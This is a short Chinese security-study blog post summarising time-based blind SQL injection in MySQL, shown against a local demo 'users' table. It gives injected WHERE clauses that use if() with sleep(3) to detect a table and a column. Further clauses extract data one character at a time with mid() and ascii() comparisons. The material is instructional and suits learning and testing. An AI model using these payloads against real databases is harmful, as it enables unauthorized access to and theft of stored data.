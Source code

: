 ```yaml
---
layout: post
title: "7.延时注入小结"
subtitle: "7.延时注入小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

```mysql
mysql> select sleep(3);
+----------+
| sleep(3) |
+----------+
|        0 |
+----------+

mysql> select name from users limit 1;
+----------+
| name     |
+----------+
| XiaoMing |
+----------+

```



**判断是否存在users表名**

```mysql
select * from users where id=1 and 0=if((select count(*) from users),sleep(3),1);

select * from users where id=1 and if((select count(*) from users),sleep(3),1);
```





**判断是否存在name字段**

```mysql
select * from users where id=1 and 0=if((select count(name) from users),sleep(3),1);

select * from users where id=1 and if((select count(name) from users),sleep(3),1);
```



**延时取出name字段数据**

```mysql
select * from users where id=1 and if(('g' = mid((select name from users limit 1),8,1)),sleep(3),1);
```



**利用ascii码取出 name字段数据 **

```mysql
select * from users where id=1 and if((ascii(mid((select name from users limit 1),1,1))=88),sleep(3),1);



select * from users where id=1 and if((ascii(mid((select name from users limit 1),2,1))=105),sleep(3),1);
```